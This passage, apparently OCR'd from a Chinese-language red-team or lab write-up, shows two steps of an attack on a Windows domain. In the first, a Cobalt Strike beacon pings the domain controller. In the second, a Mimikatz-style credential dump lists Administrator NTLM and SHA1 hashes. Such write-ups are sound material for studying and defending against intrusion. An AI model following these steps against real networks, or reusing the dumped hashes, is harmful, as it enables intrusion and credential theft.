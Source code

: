 3、定位域控

```
beacon> shell ping cncat.cc
[*] Tasked beacon to run: ping cncat.cc
[+] host called home, sent: 44 bytes
[+] received output:

正在 Ping cncat.cc [10.10.10.201] 具有 32 字节的数据:
来自 10.10.10.201 的回复: 字节=32 时间<1ms TTL=128
```

4、对 12server-ex13 主机上进行密码抓取

```
Authentication Id : 0 ; 27402071 (00000000:01a21f57)
Session           : NewCredentials from 0
User Name         : administrator
Domain            : CNCAT
Logon Server      : (null)
Logon Time        : 2023/5/17 13:42:47
SID               : S-1-5-21-296591627-685496165-1408683996-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : cncat.cc
	 * NTLM     : 747f92f9bf20a4fc930afc4dadf53bdc
	tspkg :	
	wdigest :	
	 * Username : Administrator
	 * Domain   : cncat.cc
	 * Password : (null)
	kerberos :	
	 * Username : Administrator
	 * Domain   : cncat.cc
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 13728747 (00000000:00d17beb)
Session           : Interactive from 1
User Name         : administrator
Domain            : CNCAT
Logon Server      : 12SERVER-DC
Logon Time        : 2021/4/28 23:45:24
SID               : S-1-5-21-296591627-685496165-1408683996-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : CNCAT
	 * NTLM     : 42e2656ec24331269f82160ff5962387
	 * SHA1     : 202a4f252fa716b16cc934c114a2b4423add410d
	 [00010000] CredentialKeys
	 * NTLM     : 42e2656ec24331269f82160ff5962387
	 * SHA1     : 202a4f252fa716b16cc934c114a2b4423add410d
	tspkg :	
	wdigest :	
	 * Username : Administrator
	 * Domain   : CNCAT
	 * Password : (null)
	kerberos :	
	 * Username : administrator
	 * Domain   : CNCAT.CC
	 * Password : (null)
	ssp :	
```